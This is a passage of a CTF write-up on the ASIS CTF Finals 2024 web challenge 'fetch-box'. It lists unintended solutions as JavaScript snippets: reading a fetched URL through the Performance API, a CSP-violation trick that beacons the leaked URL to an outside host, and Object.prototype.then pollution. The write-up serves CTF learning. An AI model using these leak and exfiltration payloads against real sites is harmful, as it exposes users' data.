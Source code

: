 - A full exploit code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fetch-box/solution

### Unintended Solutions

There were three unintended solutions.
I wonder if nobody has solved `fetch-box` using the intended solution, but all the solutions are valid and interesting.

#### Using Performance APIs

```javascript
const url = performance.getEntries().find(e => e.initiatorType === "fetch").name;
console.log(url); // -> http://fetch-box.asisctf.com:3000/ping?flag=ASIS%7BREDACTED%7D
```

You can get the requested URL from a `PerformanceNavigationTiming` instance triggered by executing `fetch`.

- ref. https://developer.mozilla.org/en-US/docs/Web/API/PerformanceEntry/name#value

![](./img/fetch-box-03.png)

#### Adding a `<meta>` element with CSP

From: https://x.com/tyage/status/1873537456920002982
```javascript
window.addEventListener('securitypolicyviolation', (e) => {
  navigator.sendBeacon('https://.../', e.blockedURI);
});
document.head.innerHTML = `<meta http-equiv="content-security-policy" content="connect-src https://.../">`;
```

You can get the requested URL from a CSP error with `connect-src`.

#### Prototype Pollution to thenable objects

From: https://nanimokangaeteinai.hateblo.jp/entry/2024/12/30/065058
```javascript
Object.prototype.then = function () { console.log(this.url) }
```

You can access the local variables by polluting `then` property.

- ref. https://masteringjs.io/tutorials/fundamentals/thenable

## [web] fire-leak

- 1 solved / 477 pts
- Source code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fire-leak
